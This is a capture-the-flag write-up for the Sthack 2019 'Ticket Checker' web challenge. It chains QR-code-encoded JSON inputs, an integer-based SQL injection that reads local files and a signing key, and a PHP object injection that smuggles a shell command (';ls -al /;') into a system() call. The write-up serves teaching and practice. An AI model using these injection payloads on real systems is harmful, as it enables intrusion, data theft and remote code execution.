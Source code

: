 # Sthack 2019 - CTF - Ticket Checker
*Creator of the challenge:* Ghozt

*Category:* WEB

*Difficulty:* Medium

## **Step 1: Follow the errors**

Reaching the website, we get a webpage allowing you to scan a ticket (QRCode) using your camera.

Once done, we get the following error:

![error_json](/error_json.png)

Hum...

![Barney](/Barney.png){:height="100px" width="100px"}

From Burp, we intercept the request and save it for later.

We use the tool "qrencode" to create a QRCode to put the content we want inside.

For all the next steps, the process will be like the following:
* Create a QRCode using qrencode, containing our data to be tested inside
* Base64 encode the output of the command
* Replay it throught the repeater in burp

Let's start with an empty json:

![json_empty](/qrencode_base.png)
+  *qrencode '{}' -o - | base64 -w 0*
+  *-o -*: output directly on the standard output
+  *-w 0* : disable line wrapping

We put the output into the raw-data of the data image in the "**comment**" parameter.

Be carefull to encode the base64 just added to avoid the following error:
![error_2_encoding](/error_2_encoding.png)

Once encoded:

![parameter](/json_empty.png)

**OK !** New error message, that the key '<b>uid</b>' is missing in the JSON.

![json_uid](/json_uid.png)

## **Step 2: Find the entry point**

Let's add it and retry...

![qrencode_uid](/qrencode_uid.png)

Now we get a correct output telling us that the ticket has already been used:

![output_uid](/output_uid.png)

But if we use one which may be unknown, we get a database error.

![error_db](/error_db.png)

## **Step 3: Injection SQL - Integer Based**

Let's try some SQL Injection as we are requesting the database!

We will not detail all SQL Injection tested using 'single quote', "double quote" and so on... Here, it is an interger based!

We need to know the right number of columns used by the database. Using "order by" with 5 columns, we get an error: 

![order_by](/order.png)

But using 4, it is ok meaning that we have 4 columns used. Output "2" and "3" are displayed, thus we can use it to exploit our SQL Injection:

*qrencode '{"uid":"100000000 union select 1,2,3,4"}' -o - | base64 -w 0*

![reflect_value](/reflected_value.png)

Extracting the current user, the database... 

![output_sqli](/output_sqli.png)

**Nice** but could we do something better with that? Actually yes => read some local files!

![load_file](/load_file.png)

![check](/check.png)

**Great!!!**
We can leak the source code of the application located in /var/www/html/

The usefull files to continue the challenge are:
* check.php
* ticket.php

## **Step 4: Read the source code and understand it**

By analyzing the check.php and the Ticket.php files, our final goal is to reach the call to the log() function from the Ticket class. In this function, there is a call to the system function with one controlled user input:

![system](/system.png)

It may be a **PHP Object Injection!**. Let's verify it...

Back to the check.php file, if there is no **t_uid, object, and sign** keys in the JSON, the program terminates his execution.

![die4](/die4.png)

We add those JSON keys to continue the execution and pass the condition.

The program request the database for a KEY which will be used to create a Signature object.

Let's grab it! It would be usefull:

![key](/KEY.png)

![KEY_2](/KEY_2.png)

After getting the key, the program create a Signature Object. Call the method Check(), dies if the check is wrong.

If not, we continue to the unserialize call and the log function from the Ticket class. All leading to the system call!

To pass the signature, we get the source code of the Ticket.php file on our machine to modify it and pass the check. We need to change some parts:

* Changing the filename in the History class to avoid our php object to be different at every tries on our local test
* Hardcoding the key in the Signature class as localy it will not request the database
* Adding the following source code to display the values we need to set in the **object** and **sign** keys:

![code_modified](/code_modified.png)

I will explain the added part:

* Creation of a new Ticket instance that will be used on the unserialize call
* Creation of a new History instance needed in the Ticket class
* Changing the value of data in the History class. This value will be injected to the system function leading to a some **CODE EXECUTION**
* Linking the new History instance into the Ticket instance
* Serialize the Ticket instance
* Base64 encode the output
* Sign it using the hmac methode took from the Signature class

## **Step 5: Create your most beautiful object!**

The output of the modified php file will be like:

![test_id_rce](/test_id_rce.png)

![output_rce](/id.png)

Let's analyze the server in order to get the flag and finaly have a break to drink a bit!

![laroot](/laroot.png)

Let's create the QRCode for this:

*qrencode '{"uid":"1000000000 union select 1,2,(SELECT cipher_key FROM cipher_keys LIMIT 1),4","t_id":"1","object":"Tzo2OiJUaWNrZXQiOjM6e3M6NzoiSGlzdG9yeSI7Tzo3OiJIaXN0b3J5IjoyOntzOjg6ImZpbGVuYW1lIjtzOjE3OiIvaGlzdG9yeS90b3RvLnBuZyI7czo0OiJkYXRhIjtzOjEyOiI7IGxzIC1hbCAvIDsiO31zOjU6Im1vdmllIjtOO3M6NDoicm9vbSI7Tjt9","sign":"48f08ca268e7d77625494b9186d953ac4a53dd7fe37de2345d1ef4a65a242749"}' -o - | base64 -w 0*

**Object**: contain the Ticket instance

**Sign**: hmac_mac of the object using the key

![outputflag](/outputflag.png)

## **Step 6: Get the flag, and go drink a beer!**

Get the flag!

![flag](/flag.png)

![flag_output](/flag_output.png)

Flag is: QrSql1_t0_uNs3r1i4lIz3_S0_L0l

![Cheers](/verre-chope.jpg)
